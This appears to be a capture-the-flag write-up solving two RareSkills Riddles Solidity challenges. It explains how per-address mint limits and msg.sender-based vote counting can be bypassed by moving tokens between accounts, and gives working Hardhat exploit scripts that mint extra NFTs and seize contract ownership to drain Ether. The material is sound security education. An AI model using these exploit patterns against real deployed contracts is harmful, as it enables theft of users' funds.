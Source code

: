 
## Day 16 msg.sender spoofing

### RareSkills Riddles: Overmint3

Overmint3 is a very simple ERC721 NFT.  The objective here is to have a total of five tokens and do this in one transaction.  Let's take a look at the public ```mint()``` function.  

```Java
    function mint() external {
        require(!msg.sender.isContract(), "no contracts");
        require(amountMinted[msg.sender] < 1, "only 1 NFT");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }
```

There is a check to make sure that the caller is an EOA not a contract, and the amount minted is checked by address.  We cannot use a contract to directly attack this.  The exploit comes in the problem statement, we are trying to own five tokens, and one address can only mint one token.  This doesn't say anything about an address owning more than one token.  So we could have five different addresses each mint one token and then send those tokens to the attacker.  That is what is done and passes the challenge.  

```Javascript 
    describe("exploit", async function () {
        let victimContract, attackerWallet, extras
        before(async function () {
            ({ victimContract, attackerWallet, extras } = await loadFixture(setup));
        })

        it("conduct your attack here", async function () {
            await victimContract.connect(attackerWallet).mint();
            await victimContract.connect(extras[0]).mint();
            await victimContract.connect(extras[0]).transferFrom(extras[0].address, attackerWallet.address, 2);
            await victimContract.connect(extras[1]).mint();
            await victimContract.connect(extras[1]).transferFrom(extras[1].address, attackerWallet.address, 3);
            await victimContract.connect(extras[2]).mint();
            await victimContract.connect(extras[2]).transferFrom(extras[2].address, attackerWallet.address, 4);
            await victimContract.connect(extras[3]).mint();
            await victimContract.connect(extras[3]).transferFrom(extras[3].address, attackerWallet.address, 5);
        });
```

### RareSkills Riddles: Democracy

Democracy is an NFT voting system and we, the attacker are the challenger.  The incumbant has rigged the election so that once our vote has been cast they will be delcared the winner so rather than fight this injustice our job is to rob them and take off.  The objective is to drain the contract of its 1 Ether, and hopefully we can swing the election to our favor.    

The Democracy contract is quite large at 181 lines, there are a number of things to note.  The first thing is the ```_rigElection()``` method.  

```Java
    function _rigElection() private {
        // Mint voting tokens to challenger
        _mint(challenger, 0);
        _mint(challenger, 1);

        // Make it look like a close election...
        votes[incumbent] = 5;
        votes[challenger] = 3;
    }

    function _callElection() private {
        electionCalled = true;

        if (votes[challenger] > votes[incumbent]) {
            incumbent = challenger;
            _transferOwnership(challenger);

            challenger = address(0);
        }
    }

    function withdrawToAddress(address address_) external onlyOwner {
        payable(address_).call{value: address(this).balance}("");
    }
```

This method gives us two NFTs to vote with.  The second thing to note is that the incumbant has five votes and we have three, so we will need to use more than the two provided NFTs to vote.  In the ```_callElection()``` method we see that if we win the election we will take ownership of the contract, and with ownership we can call ```withdrawToAddress()``` to extract all the Ether.  Very interesting.  Now we just need to figure out how to win the election.  

Now let's look at the voting function: 

```Java
    function vote(address nominee)
        external
        contractBalanceIsGreaterThanZero
        electionNotYetCalled
        nomineeIsValid(nominee)
        hodlerNotYetVoted
    {
        // Check NFT balance
        uint256 hodlerNftBalance = balanceOf(msg.sender);
        require(
            hodlerNftBalance > 0,
            "DemocracyNft: Voting only for NFT hodlers"
        );

        // Log votes
        votes[nominee] += hodlerNftBalance;
        voted[msg.sender] = true;

        // Tip hodler for doing their civic duty
        payable(msg.sender).call{value: address(this).balance / 10}("");

        // Once all hodlers have voted, call election
        if (votes[incumbent] + votes[challenger] >= TOTAL_SUPPLY_CAP) {
            _callElection();
        }
    }

    modifier hodlerNotYetVoted() {
        require(!voted[msg.sender], "DemocracyNft: One hodler, one vote");
        _;
    }
```

In ```vote()``` there are a number of modifiers used they check: the election is still going on, the contract sill holds Ether, the nominee is valid, and the hodler has not yet voted.  THe last item is check by msg.sender.  In fact all accounting is done by msg.sender not the the NFT id.  There is a balance check also done by msg.sender.  In many methods in the contract it requires the caller to not be a contract, however there is no check on that in ```vote()```, so we can call it with a contract and do some sort of reentrancy attack.  Since everything is checked by address we can create a contract that votes for the challenger (with two votes) then does a reentrancy attack by transfering one (or two) tokens to another entity and voting again.  There is some code preventing this.  

```Java
    function approve(address to, uint256 tokenId)
        public
        override
        callerIsNotAContract
    {
        _approve(to, tokenId);
    }

    function transferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override callerIsNotAContract {
        require(
            _isApprovedOrOwner(_msgSender(), tokenId),
            "ERC721: caller is not token owner or approved"
        );

        _transfer(from, to, tokenId);
    }

    function safeTransferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override callerIsNotAContract {
        require(
            _isApprovedOrOwner(_msgSender(), tokenId),
            "ERC721: caller is not token owner or approved"
        );

        _safeTransfer(from, to, tokenId, "");
    }
```

The above code says that our attack contract cannot call any of these methods.  So we will have to call them with our EOA.  Here is the modified attack: 0. Get a 2nd attack address (done in setup())  1. nominate the attacker EOA as the challenger 2. transfer one token to the second attack address 3. vote one time 4. transfer the second token to the second attack address.  5. have the second attack address vote 6. Having won the election, withdraw the funds (no reentrancy, or attack contract needed).

```Javascript
    it("conduct your attack here", async function () {
      // 1. nominate the attacker EOA as the challenger
      await victimContract.connect(owner).nominateChallenger(attackerWallet.address);

      // 2. transfer one token to the attack contract
      await victimContract.connect(attackerWallet).transferFrom(attackerWallet.address, attacker2Wallet.address, 0);

      // 3. vote one time (as attacker)
      await victimContract.connect(attackerWallet).vote(attackerWallet.address);

      // 4. transfer the second token to the attack contract.  
      await victimContract.connect(attackerWallet).transferFrom(attackerWallet.address, attacker2Wallet.address, 1);

      // 5. have the attack contract vote (no reentrancy needed).
      await victimContract.connect(attacker2Wallet).vote(attackerWallet.address);

      // 6. attacker wins the election and withdraws the balance
      await victimContract.connect(attackerWallet).withdrawToAddress(attackerWallet.address);
    });
```